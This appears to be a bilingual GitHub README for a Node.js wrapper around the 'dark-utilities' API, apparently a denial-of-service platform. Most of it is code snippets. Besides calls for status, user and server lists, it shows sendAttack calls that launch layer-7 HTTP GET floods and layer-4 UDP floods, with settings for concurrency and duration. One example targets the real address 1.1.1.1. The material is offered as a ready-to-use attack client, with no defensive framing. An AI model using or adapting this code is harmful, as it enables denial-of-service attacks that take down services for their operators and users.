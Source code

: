 # Dark-Utilities API Node-Js
 Description :
   * -> Using the dark-utilities API in node js
   * -> Utilisation de l'API dark-utilities en node js

 ### Dependencies npm :
  * [phin](https://www.npmjs.com/package/phin "lien")

 ### Require :
  * -> [Node-Js](https://www.digitalocean.com/community/tutorials/how-to-install-node-js-on-ubuntu-20-04-fr)
 
### Installation :
  * To use it you need to have dark-utilities and install phin `npm i phin`

### Quick Demos

Get Status code (API)
```js
darkutilities.StatusApi().then(status => {
    console.log(status);
});
```

Get User Information
```js
darkutilities.getUserInfo().then(info => {
    console.log(info);
});
```

Get Server List
```js
darkutilities.getServerList().then(server => {
    console.log(server);
});
```

Get Server Info
```js
darkutilities.getServerInfo('fd06d2f5192fd94341543d15ae8158bb').then(server => {
    console.log(server);
});
```

Send attack ddos-layer7
```js
darkutilities.sendAttack('ddos-layer7', {
    'method': 'GET',
    'target': 'https://exemple.com/hit',
    'concurrents': 100,
    'time': 20
}, [
    { "server_id": "fd06d2f5192fd94341543d15ae8158bb", 'server_selected': true },
]).then(attack => {
    console.log(attack);
});
```

Send attacks ddos-layer4
```js
darkutilities.sendAttack('ddos-layer4', {
    'method': 'UDP',
    'target': '1.1.1.1',
    'port': 80,
    'concurrents': 10,
    'time': 20
}).then(attack => {
    console.log(attack);
});
```

Get Attack List
```js
darkutilities.getAttacks().then(attacks => {
    console.log(attacks);
});
```
